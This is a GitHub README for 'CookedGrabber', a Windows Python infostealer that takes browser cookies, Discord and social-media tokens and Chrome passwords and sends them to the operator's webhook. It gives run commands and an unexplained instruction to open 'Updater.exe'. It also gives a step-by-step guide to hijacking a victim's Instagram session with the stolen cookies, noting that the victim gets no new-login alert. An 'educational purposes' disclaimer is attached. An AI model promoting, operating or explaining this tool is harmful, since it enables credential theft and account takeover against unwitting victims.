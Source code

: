 <div align="center">
  <img src="[https://imgur.com/lCyX6TX.png]">
  <br>
  <br>
  <p>
    <img src="https://forthebadge.com/images/badges/made-with-python.svg">
    <img src="http://forthebadge.com/images/badges/built-with-love.svg">
  </p>
  <h4> Discord, Twitter, Instagram, netflix cookies, token grabber and also password grabber. Grabbing from all web browsers ! </h4>
  <p>
    <img alt="GitHub contributors" src="https://img.shields.io/github/contributors/mouadessalim/CookedGrabber">
    <img alt="GitHub issues" src="https://img.shields.io/github/issues/mouadessalim/CookedGrabber">
    <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=shields">
    <img alt="GitHub pull requests" src="https://img.shields.io/github/issues-pr/mouadessalim/CookedGrabber">
    <img alt="GitHub commit activity" src="https://img.shields.io/github/commit-activity/m/mouadessalim/CookedGrabber">
    <img alt="Maintenance" src="https://img.shields.io/maintenance/no/2023">
  </p>
  <p align="center">
    <a href="#usage">Usage</a> •
    <a href="#cookies">Cookies</a> •
    <a href="#compatibility">Compatibility</a> •
    <a href="#disclaimer">Disclaimer</a> •
    <a href="#contributing">Contributing</a> •
    <a href="#license">License</a> •
    <a href="#other-projects">Other projects</a> 
  </p>
  <p align="center">
    <i>Loved the tool? Please consider <strong>donating</strong> 💸 to help it improve!</i>
  </p>

  <p align="center">
    <a href='https://ko-fi.com/mouadessalim' target='_blank'><img height='30' width="115" src='https://cdn.ko-fi.com/cdn/kofi3.png?v=2' alt='Buy Coffee for mouadessalim' />
    </a>
    <a href="https://www.buymeacoffee.com/mouadessalim" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="30" width="115" style="border-radius:1px" />
    </a>
  </p>
</div>

# 📈Usage

## Requirements ⚡

- **Windows 10** OS only (*win32, for x86, x86_64, and arm64 architectures*)
- **Python 3.x** (*python 3.9 used for the project.*)
- **Modules:** `$ pip install -r requirements.txt`

## How to use ? ❄

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
Open Updater.exe after this put into cmd py y0pe.py

*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

## Screenshots 📷

<p align="center">
  <img src="https://user-images.githubusercontent.com/38190847/188172516-da111666-ff8e-4cdb-86c4-1cbd82f87e91.png">
  <img src="https://user-images.githubusercontent.com/38190847/191291652-e617410c-62e8-489b-b8df-e738a9ed40c4.png">
</p>

# 🍪Cookies

## What are cookies ?

Cookies are text files with small pieces of data like a username and password that are used to identify your computer as you use a computer network. Specific cookies known as HTTP cookies are used to identify specific users and improve your web browsing experience.

Data stored in a cookie is created by the server upon your connection. This data is labeled with an ID unique to you and your computer.

When the cookie is exchanged between your computer and the network server, the server reads the ID and knows what information to specifically serve to you.

## What are cookies used for ?

Websites use HTTP cookies to streamline your web experiences. **Without cookies, you’d have to login again after you leave a site or rebuild your shopping cart if you accidentally close the page.** Making cookies an important a part of the internet experience. 

## Security breach with cookies

Since the data in cookies doesn't change, cookies themselves aren't harmful. They can't infect computers with viruses or other malware. However, some cyberattacks can hijack cookies and enable access to your browsing sessions.

The server only sends the cookie when it wants the web browser to save it. If you’re wondering “where are cookies stored,” it’s simple: your web browser will store it **locally** to remember the “name-value pair” that identifies you.

**⚠ When you try to connect to an account using cookies it does not even generate a new login request to the server, that mean that the victim does not even receive the email with a `new connexion detected`. The target don't know that you are connected to the account because the server think it's him !**

*****☢ This reveals major security breaches in general websites and social networks ! ☢*****

## How to bypass websites with cookies ?

So to use cookies to log into the victim account, you must have a cookies extension. I recommand [Cookie-Editor](https://chrome.google.com/webstore/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm). **To bypass website security you must be already connected to your personnal account to generate all cookies needed for the website.** After being sure that all default cookies have been generated use your cookies extension to replace your personnal id account cookies with the grabbed victim account cookies.

#### *****Example: Instagram*****

![image](https://user-images.githubusercontent.com/38190847/191361287-696f24ae-986e-40f2-9e6d-eb95dddfdbc8.png)

You need to put each value in it's place with the cookies extension:

![image](https://user-images.githubusercontent.com/38190847/191360860-dd5c75b3-5663-4449-ba72-f4492b88cef2.png)

> Once the cookies replaced and saved, refresh the page and you are logged in the victim account !

# 🌐Compatibility

| Browsers           | Cookies and token grabber 🔍 | Password stealer 💥 | 
| :-----------:      | :-----------: | :-----------: |
| Chrome             | ✅ | ✅ |
| Edge               | ✅ | ❌ |
| Brave              | ✅ | ❌ |
| Firefox            | ✅ | ❌ |
| Opera (GX)         | ✅ | ❌ |
| Vivaldi            | ✅ | ❌ |
| Chromium navigator | ✅ | ❌ |

# ❗Disclaimer

- **Only for educationnal puposes.**
- **We decline any responsability in case of misuse of this code.**

# ✨Contributing

Your contributions are always welcome! if you contribute we will show your account in the README file ! Please have a look at the [contribution guidelines](CONTRIBUTING.md) first. 🎉

## Authors ❤

<a href="https://github.com/mouadessalim/CookedGrabber/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=mouadessalim/CookedGrabber" />
</a>
<br>
<br>

> **Working on your first Pull Request?** You can learn how from this *free* series [How to Contribute to an Open Source Project on GitHub](https://kcd.im/pull-request)

# 📝License

The actual repository is _unlicensed_, it mean **all rights are reserved**. You cannot modify or redistribute this code without **explicit** permission from the copyright [holders](https://github.com/mouadessalim/CookedGrabber/graphs/contributors). 

_Violating this rule may lead our intervention according to the [Github Terms of Service — User-Generated Content — Section D.3](https://docs.github.com/en/site-policy/github-terms/github-terms-of-service#3-ownership-of-content-right-to-post-and-license-grants) using the [Content Removal Policies — DMCA Takedown Policy](https://docs.github.com/en/site-policy/content-removal-policies/dmca-takedown-policy#what-is-the-dmca)_.

# 💡Other projects

If you love this repository you may be interested in these projects:

[![Readme Card](https://github-readme-stats.vercel.app/api/pin/?username=9P9&repo=Discord-QR-Token-Logger&show_owner=true)](https://github.com/9P9/Discord-QR-Token-Logger)
